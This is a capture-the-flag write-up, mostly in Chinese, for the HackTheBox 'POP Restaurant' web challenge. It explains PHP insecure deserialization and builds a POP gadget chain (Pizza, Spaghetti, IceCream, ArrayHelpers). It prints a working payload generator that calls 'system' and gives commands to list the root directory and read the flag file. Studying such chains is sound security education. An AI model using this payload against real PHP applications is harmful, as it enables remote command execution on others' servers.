 # POP Restaurant Challenge@HTB[WEB easy] 

[TOC]

##  Challeng description 
Spent a week to create this food ordering system. Hope that it will not have any critical vulnerability in my application.(題目有給Source Code)

## Initial Recon
-    Step1. 開啟網頁後可以登入跟註冊
![image](https://hackmd.io/_uploads/ByAic4UL1l.png)
![image](https://hackmd.io/_uploads/S1l-LWFUke.png)

-    Step2. 註冊登入系統後可以點餐
![image](https://hackmd.io/_uploads/ry2QvZKUJl.png)

-    Step3. 我點了一塊Pizza，攔他的 Request 看一下
![image](https://hackmd.io/_uploads/r1GevZKIkl.png)

```
data = Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO047fQ%3D%3D
```
可以發現他是 PHP Serialization
```code=php
base64(decode)= O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";N;}
```

## Code Review
- 此題有給 Source Code
    - 解壓縮後可以看到內容有許多 PHP 檔
![image](https://hackmd.io/_uploads/BkC75fKLke.png)
-  可以在 order.php 看到 unserialize 的內容（可以利用反序列化得到 flag）
    ```code=PHP
    $order = unserialize(base64_decode($_POST['data']));
    ```
接續看 Model 內的內容
- IceCreamModel.php
  ```php=
    <?php
        class IceCream
        {
            public $flavors;
            public $topping;

            public function __invoke()
            {
                foreach ($this->flavors as $flavor) {
                    echo $flavor;
                }
            }
        }
    ```
- PizzaModel.php
    ```php=
    <?php
        class Pizza
        {
            public $price;
            public $cheese;
            public $size;

            public function __destruct()
            {
                echo $this->size->what;
            }
        }
    ```
- SpaghettiModel.php
    ```php=
    <?php

    class Spaghetti
    {
        public $sauce;
        public $noodles;
        public $portion;

        public function __get($tomato)
        {
            ($this->sauce)();
        }
    }
    ```
嘗試 IceCream，想讓他印出我輸入的口味
第一次嘗試失敗，因為 flavor 需要是陣列的類型
`O:8:"IceCream":2:{s:7:"flavors";s:4:"milk";s:7:"topping";N;s:2:"Hi";N}`
## Verification Function Analysis
:::info
https://vickieli.dev/insecure deserialization/pop-chains/
:::
這題是在考 POP chain，要想辦法手動去觸發他們各自的 magic method，並且讓他們串再一起，再透過修改程式中的值，最後產出一個值被修改過的序列化資料，再去執行。

看了一下別人 Writeup 的串法
:::warning
順序是 Pizza 的 __destruct() -> Spaghetti 的 __get() -> iceCream 的 __invoke() -> ArrayIterator
:::
會這樣利用是因為物件結束後成功觸發 __destruct()，__destruct() 內執行 echo $this -> size -> what，what 是不存在的東西，所以又再觸發 __get()，__get() 內執行 sauce()，這個觸發到 __invoke() 並執行迴圈去印 flavor，最後 foreach 的時候就會觸發到 current 來處理迭代array 的元素
補充 : call_user_func 意思大概是使用 callback 函式，然後參數是 value

```php =
<?php

require_once 'Helpers/ArrayHelpers.php';
require_once 'Models/IceCreamModel.php';
require_once 'Models/PizzaModel.php';
require_once 'Models/SpaghettiModel.php';

$callback = 'system';
$payload = 'your command';
$arrayHelper = new Helpers\ArrayHelpers([$payload]);
$arrayHelper->callback = $callback;

$iceCream = new IceCream();
$iceCream->flavors = $arrayHelper;

$spaghetti = new Spaghetti();
$spaghetti->sauce = $iceCream;

$pizza = new Pizza();
$pizza->size = $spaghetti;

echo base64_encode(serialize($pizza));

```
從上面的程式碼可以看到是利用了一個 ArrayHelpers 的檔案，這個 class 繼承自 ArrayIterator，並且複寫了 current 函式 (用於回傳當前元素)。
所以新的 current 函式會將 array 中每個元素作為 callback 的參數執行，因此如果將 callback 更改為 system，就能夠搭配 array 中的元素來執行 linux 指令

## Get the FLAG
撰寫 Payload:
```php=
<?php

namespace Helpers {
    use \ArrayIterator;

    class ArrayHelpers extends ArrayIterator
    {
        public $callback;

        public function current(): mixed
        {
            $value = parent::current();
            $debug = call_user_func(callback: $this->callback, args: $value);
            return $value;
        }
    }
}

```
- namespace Helpers {
定義一個命名空間 Helpers，避免類別名稱衝突。
- use \ArrayIterator;
引入 PHP 內建的 ArrayIterator 類別，讓我們能繼承它。
- class ArrayHelpers extends ArrayIterator
宣告一個自定義類別 ArrayHelpers，它繼承 ArrayIterator。
意思是你可以用這個類別來像操作陣列那樣處理資料。
- public $callback;
宣告一個公開屬性 $callback，用途是儲存將來要呼叫的函式名稱或 callable（如匿名函數、方法等）。
- public function current(): mixed
覆寫 ArrayIterator 的 current() 方法。
回傳值是 mixed，代表可以是任何型別（PHP 8.0+ 語法）。

`ls / > result.txt`
![image](https://hackmd.io/_uploads/BJVr_dcRye.png)

Catch The Flag
`payload = cat ../../../../pBhfMBQlu9uT_flag.txt > flag.txt`
![image](https://hackmd.io/_uploads/ryE_OdqR1l.png)
